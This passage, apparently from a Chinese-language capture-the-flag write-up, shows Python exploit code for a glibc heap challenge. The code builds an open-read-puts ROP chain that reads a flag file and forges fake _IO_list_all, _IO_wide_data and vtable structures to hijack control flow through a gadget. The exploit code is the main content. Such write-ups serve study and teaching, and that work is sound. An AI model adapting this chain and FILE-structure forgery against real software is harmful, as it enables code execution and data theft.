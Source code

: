 构造orw链

```plain
#open
orw = b'./flag\x00\x00'
orw += p64(pop_rdx12) + p64(0) + p64(chunk0 - 0x10)#fake io addr
orw += p64(pop_rdi) + p64(orw_addr)
orw += p64(pop_rsi) + p64(0)
orw += p64(open_addr)
#read
orw += p64(pop_rdi) + p64(3)
orw += p64(pop_rsi) + p64(orw_addr + 0x100)
orw += p64(pop_rdx12) + p64(0x50) + p64(0)
orw += p64(read_addr)
#puts
orw += p64(pop_rdi) + p64(orw_addr + 0x100)
orw += p64(puts_addr)
```

其中chunk0是我们伪造的fakeio的地址

伪造fake io\_list

```plain
#_IO_list_all
pl=p64(0)+p64(leave_ret)+p64(0)+p64(io_all-0x20) #2c0
pl+=p64(0)*3 #2e0
pl+=p64(orw_addr) #chunk0 + 0xe0 + 0xe8 + 0x70 -- _IO_save_base
pl+=p64(0)*7
pl+=p64(lock) #_lock
pl+=p64(0)*2
pl+=p64(chunk0 + 0xe0) #370: chunk0+0xe0 -- _IO_wide_data
pl+=p64(0)*6
pl+=p64(wfile)

#_IO_wide_data
pl+=p64(0)*0x1c
pl+=p64(chunk0 + 0xe0 + 0xe8) #_IO_jump_t

#_IO_jump_t
pl+=p64(0)*0xd
pl+=p64(magic_gadget)#svcudp_reply+26处的gadget
pl+=orw
```

带入本题中

```plain
chunk0 = heap_base + 0xf20 #fake_IO
orw_addr=heap_base+0x2090
orw=b'./flag\x00\x00'
orw+=p64(pop_rdx_r12)+p64(0)+p64(chunk0-0x10)
orw+=p64(pop_rdi)+p64(orw_addr)
orw+=p64(pop_rsi)+p64(0)
orw+=p64(open_addr)
#read
orw+=p64(pop_rdi)+p64(3)
orw+=p64(pop_rsi)+p64(orw_addr+0x100)
orw+=p64(pop_rdx_r12)+p64(0x50)+p64(0)
orw+=p64(read_addr)
#puts
orw+=p64(pop_rdi)+p64(orw_addr+0x100)
orw+=p64(puts_addr)

edit(9,orw)
```
